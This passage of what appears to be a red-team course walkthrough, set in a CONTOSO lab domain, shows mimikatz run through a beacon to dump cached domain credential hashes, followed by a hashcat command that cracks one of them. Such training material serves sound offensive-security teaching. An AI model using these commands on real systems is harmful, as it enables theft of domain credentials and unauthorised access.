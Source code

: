 ```batch
beacon> mimikatz !lsadump::cache

Domain : LON-WKSTN-1
SysKey : a975bfd9830a0c6a82f3449ccc88432d

Local name : LON-WKSTN-1 ( S-1-5-21-3729176663-3746934411-1052919527 )
Domain name : CONTOSO ( S-1-5-21-3926355307-1661546229-813047887 )
Domain FQDN : contoso.com

Policy subsystem is : 1.18
LSA Key(s) : 1, default {ac3b4c09-dbcc-31b9-0b7b-6b6d44fa8648}
  [00] {ac3b4c09-dbcc-31b9-0b7b-6b6d44fa8648} d29b6c62cff0caac88bf40267d2001c987fd597f4c3f1490da0ff2da60163887

* Iteration is set to default (10240)

[NL$1 - 17/02/2025 09:52:55]
RID       : 00000451 (1105)
User      : CONTOSO\pchilds
MsCacheV2 : 3566ba05cfe9d5314144ebef07289cdc

[NL$2 - 17/02/2025 09:53:40]
RID       : 00000454 (1108)
User      : CONTOSO\rsteel
MsCacheV2 : 0ac91f0033a92c25a174679953789ba
```

\
Take note of the number of iterations the passwords are hashed with, as this is required when attempting to crack them.  The default (as indicated by the output above) is 10240.

These can be cracked using hash mode 2100 in Hashcat, although it's another slow format owing to the number of iterations (1085 kH/s on my 4070).

```batch
PS C:\Tools\hashcat> .\hashcat.exe -a 0 -m 2100 .\mscachev2.hash .\example.dict -r .\rules\dive.rule
$DCC2$10240#rsteel#0ac91f0033a92c25a174679953789ba:Passw0rd!
```
